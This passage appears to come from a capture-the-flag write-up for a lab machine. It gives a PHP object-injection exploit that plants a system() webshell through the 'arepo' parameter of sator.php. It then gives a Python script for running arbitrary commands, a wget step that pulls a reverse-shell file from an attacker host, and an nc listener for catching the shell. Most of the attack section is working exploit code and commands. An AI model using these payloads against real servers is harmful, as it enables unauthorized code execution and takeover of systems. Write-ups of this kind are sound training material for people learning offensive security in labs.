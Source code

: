 ```
<?php
class DatabaseExport
{
    public function __construct()
    {
		//Sets the 'user_file' variable to = 'user.php'
		//which allows php code to run in the browser
        $this->user_file = 'user.php';
		
		//Sets the 'data' variable to a php system call
        $this->data = '<?php system("whoami") ?>';
    }
}

$obj = new DatabaseExport();
echo serialize($obj);
?>
```

> If you want to really know how this works: watch the video from **ippsec** that I linked in **Reading/Resources**


Sending that object as a parameter `http://10.10.10.223/sator.php?arepo=OBJECT` and then checking `http://10.10.10.223/user.php` confirms that we have code execution

Not necessary as you can do all the steps manually, but I wrote a little webshell

```
import requests
import sys

r = requests.get('http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"user.php";s:4:"data";s:' + str(19 + len(sys.argv[1])) + ':"<?php system("' + sys.argv[1] + '") ?>";}')

r2 = requests.get('http://10.10.10.223/user.php')
print(r2.text)

```

While that's nice and all, we really want an interactive shell. Using my webshell I pulled my reverse shell onto the server.

`python3 shell.py 'wget YOURIP:YOURPORT/revshell.php`

Start a listener

`nc -lvnp 4444`

And nagivate to `10.10.10.223/revshell.php`

---

### Privesc (Race condition, scripting)
* Reading/Resources
	* [race condition](https://en.wikipedia.org/wiki/Race_condition)
